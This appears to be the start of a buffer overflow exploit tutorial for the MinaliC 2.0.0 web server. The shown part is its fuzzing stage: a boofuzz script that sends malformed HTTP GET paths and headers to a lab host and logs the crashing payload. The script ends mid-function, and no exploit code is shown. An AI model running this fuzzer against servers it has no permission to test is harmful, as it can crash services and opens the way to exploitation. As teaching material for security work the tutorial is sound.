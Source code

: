 ```yaml
---
title: MinaliC 2.0.0 buffer overflow exploit
author: Stipe Marinovic
date: 2020-07-15 23:00:00 +0800
categories: [Blogging, Tutorial, Exploit]
tags: [fuzzing, shellcoding, exploit, bufferoverflow, bof]
toc: true
---
```


## Fuzzing ##

Standard python script with boofuzz module and post_test_case_callback function call can be used for fuzzing. 

* Fuzzer

```
#!/usr/bin/python
import sys
from boofuzz import *

host = '172.16.24.213'
port = 80

def receive_response(target, fuzz_data_logger, session, sock):
   data=sock.recv(20000)
   if not "HTTP/1.1" in data:
      print "\n######################################################\n"
      print "[+] No data received from MinaliC server"
      print "[+] Payload length: " + str (len(session.last_send))
      print "[+] Payload saved in minalic_server_crash_report.txt"
      print "[+] Fuzzing ended"
      print "\n######################################################\n"
      f = open("minalic_server_crash_report.txt", "w")
      f.write(session.last_send)
      f.close()
      sys.exit(-1)

def main():

   session = Session(post_test_case_callbacks=[receive_response], sleep_time=0.2, target = Target(connection = SocketConnection(host, port, proto='tcp')))

   s_initialize("MiniShare GET")
   s_string("GET", fuzzable = False)
   s_delim(" ", fuzzable = False)
   s_string("/", fuzzable = False)
   s_string("FUZZ", fuzzable = True)
   s_delim(" ", fuzzable = False)
   s_string("HTTP/1.1", fuzzable = False)
   s_string("\r\n", fuzzable = False)

   s_string("Host:", fuzzable =False)
   s_delim(" ", fuzzable = False)
   s_string("172.16.24.212", fuzzable = True)
   s_string("\r\n", fuzzable = False)

   s_string("User-Agent", fuzzable =False)
   s_delim(" ", fuzzable = False)
   s_string("FUZZ", fuzzable = True)
   s_string("\r\n", fuzzable = False)

```